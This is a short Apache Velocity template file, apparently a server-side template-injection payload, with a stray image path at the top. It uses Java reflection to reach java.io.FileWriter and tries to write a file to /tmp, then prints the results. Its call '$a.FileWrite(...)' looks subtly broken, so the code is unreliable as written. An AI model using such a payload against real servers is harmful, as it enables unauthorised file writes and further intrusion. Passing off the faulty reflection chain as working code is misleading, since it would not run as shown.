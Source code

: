 #set( $monkey = '888888888888888888888888=========99999999999999999999999' )
$monkey
#set ($e="exp")
#set ($a=$e.getClass().forName("java.io.FileWriter"))
#set ($b=$a.FileWrite("/tmp/xxxxxx"))
#set ($c=$b.write("zzz"))
#set ($d = $b.flush())
#set ($f = $b.close())
$a
$b
$c
$d
$f
$monkey
